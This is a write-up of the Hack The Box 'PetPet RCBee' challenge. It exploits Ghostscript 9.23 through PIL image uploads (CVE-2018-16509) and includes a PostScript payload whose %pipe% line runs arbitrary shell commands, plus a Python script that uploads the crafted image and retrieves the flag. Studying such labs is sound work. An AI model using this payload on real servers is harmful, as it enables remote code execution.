 #  PetPet RCBee HTB Challenge 

__________________________________________

In this Website we can upload images.
From the source code we can see that the app is importing "**PIL**" that is a component that use ghostscript-9.23 in this case.

### VULN

This version of ghostscript is vulnerable to RCE.
- https://github.com/farisv/PIL-RCE-Ghostscript-CVE-2018-16509/tree/master

## POC

Crafting a jpg image like this will execute code in the server:

```
%!PS-Adobe-3.0 EPSF-3.0
%%BoundingBox: -0 -0 100 100

userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%<RCE HERE>) currentdevice putdeviceprops
```

So we can just copy the flag from /app/flag to /app/application/static/petpets/flag.txt then navigato to /static/petpets/flag.txt to retrieve the flag.

```
%!PS-Adobe-3.0 EPSF-3.0
%%BoundingBox: -0 -0 100 100

userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%cp /app/flag /app/application/static/petpets/flag.txt) currentdevice putdeviceprops
```

#### Python Script
```python
import requests
import sys

if len(sys.argv) != 2:
    print("Usage: python3 script.py <URL>")
    sys.exit(1)

url = sys.argv[1]

# Aggiungi "http://" all'URL se mancante.
if not url.startswith('http://') and not url.startswith('https://'):
    url = 'http://' + url

# Make the Evil JPG to upload

content = '''%!PS-Adobe-3.0 EPSF-3.0
%%BoundingBox: -0 -0 100 100

userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%cp /app/flag /app/application/static/petpets/flag.txt) currentdevice putdeviceprops
'''

with open("bad_image.jpg", "w") as file:
    file.write(content)

print("The Image 'bad_image.jpg' has been saved in the current directory")
print("Ready to upload to the victim machine!")


# UPLOAD the image
upload_url = f'{url}/api/upload'
payload = {'file': open('bad_image.jpg', 'rb')}
response_upload = requests.post(upload_url, files=payload)

if response_upload.status_code == 200:
    print("Image Uploaded!")

    # Get the flag from "static/petpets/flag.txt".
    get_url = f'{url}/static/petpets/flag.txt'
    response_get = requests.get(get_url)

    if response_get.status_code == 200:
        print('Your Flag:')
        print(response_get.text)
    else:
        print(f'Errore {response_get.status_code}: File "flag.txt" not found')
else:
    print(f'Error {response_upload.status_code}: Image Has Not Been Uploaded, check the IP or your connection.')
```
